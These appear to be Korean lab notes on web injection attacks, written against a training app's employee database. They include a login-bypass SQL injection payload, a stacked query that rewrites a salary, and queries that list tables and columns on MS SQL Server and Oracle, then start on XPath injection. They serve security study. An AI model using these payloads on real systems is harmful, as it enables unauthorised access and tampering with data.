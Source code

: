 ### 2. SQL 삽입 공격

- 로그인 우회 공격
	- 특정 사용자를 선택하고, 패스워드 부분에 'or' '='을 입력한 후 Login을 클릭한다.
```sql
SELECT * FROM employee WHERE userid = 'Neville Bartholomew (admin)' and password= '' or '='
```

- SQL 삽입 공격으로 데이터 수정
	- User ID 부분에 다음과 같이 입력한다.
```sql
101; UPDATE employee SET Salary=100000 WHERE userid=101
SELECT userid, password, ssn, salary, email FROM employee where userid=101;
UPDATE employee SET Salary=100000 WHERE userid=101
```

- Microsoft SQL Server에서 사용자 정의 테이블 가져오기
```sql
SELECT name FROM sysobjects WHERE xtype='U'
```

- MicroSoft SQL Server에서 컬럼 이름 가져오기
```sql
SELECT name FROM sysobjects WHERE id = (SELECT id FROM sysobjects WHERE name = '컬럼 이름을 얻기 원하는 테이블 이름')
```

- Oracle에서 사용자 정의 테이블 가져오기
```sql
SELECT tname FROM sys.tab
SELECT table_name FROM all_tables WHERE TABLESPACE_NAME='USERS'
```

- Oracle에서 컬럼 이름 가져오기
```sql
SELECT column_name FROM cols WHERE table_name='컬럼 이름을 얻기 원하는 테이블 이름'
SELECT column_name FROM all_tab_columns WHERE table_name='테이블 이름'
```

### 3. XPath 삽입 공격

- XPath는 XML 문서로부터 선택한 노드를 사용하기 위한 프로그래밍 언어이며, XML 데이터를 트리 구조 값으로 형성한다.
- XPath 노드
	- `users`: 문서 노드
	- `username`, `password`, `account`: 요소 노드
	- `id="1"`: 속성 노드
	- `anesra`, `anesra_manse`, `root`: 인자 값
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
	<user>
		<username id="1">anesra</username>
		<password>anesra_manse</password>
		<account>root</account>
	</user>
</users>
```
